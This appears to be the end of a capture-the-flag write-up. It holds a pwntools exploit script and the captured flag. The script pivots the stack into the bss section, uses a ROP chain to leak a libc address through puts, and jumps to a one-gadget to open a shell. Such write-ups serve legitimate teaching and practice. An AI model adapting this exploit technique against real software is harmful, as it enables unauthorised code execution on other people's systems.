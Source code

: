 ```python
    sBss =      0x555555558020
    sBuffer =   0x5555555587d8 # this offset is due to the new stack being in the bss that is to much short to the stack of functions like printf and scanf
    offsetToPayload = sBuffer - sBss
    bufferBss = e.bss() + offsetToPayload + 8 # this + 8 is just for alignment


    addrMain55 = e.symbols["main"] + 55
    # 0x000000000000145b: pop rdi; ret;
    gadgetPopRdi = 0x000000000000145b + e.address
    rop = convert_case(p64(gadgetPopRdi))
    rop += convert_case(p64(e.got["puts"]))
    rop += convert_case(p64(addrMain55)) # puts
    rop += convert_case(p64(bufferBss)) # to put inside of RBP due to pop at the end of main
    rop += convert_case(p64(e.symbols["menu"] + 110))



    payload = b"GARBAGEE" # just for alignment
    payload += rop.ljust(0x48, b"N")
    payload += convert_case(p64(bufferBss - 8)) # to dont mess with the pivoting
    payload += convert_case(p64(e.symbols["menu"] +212)) # Go directly to leave ; ret to execute the ROP chain

    r.sendafter(b" 69 characters)", payload)

    r.recvuntil(b"garbagee")
    r.recvline()
    output = r.recvline()

    leakPuts = output[:-1]
    leakPuts = u64(leakPuts.ljust(8, b"\x00"))
    log.info(f"leakPuts: {hex(leakPuts)}")

    libc.address = leakPuts - libc.symbols["puts"]
    log.info(f"libc: {hex(libc.address)}")

    #-----------------------------------------------------------------------------------------------------

    finalPayload = b"K"*0x40
    finalPayload += p64(libc.address + 0xe5306) # this overwrites the return of read so no mangle is needed
    r.sendlineafter(b" characters", finalPayload)

    r.interactive()

if __name__ == "__main__":
    # author: s1gn3rs
    main()
```

---

## Flag

```
gigem{f1x3d_d3buG6iN_y3t_st1Ll_f1aWeD_3da42ce3}
```
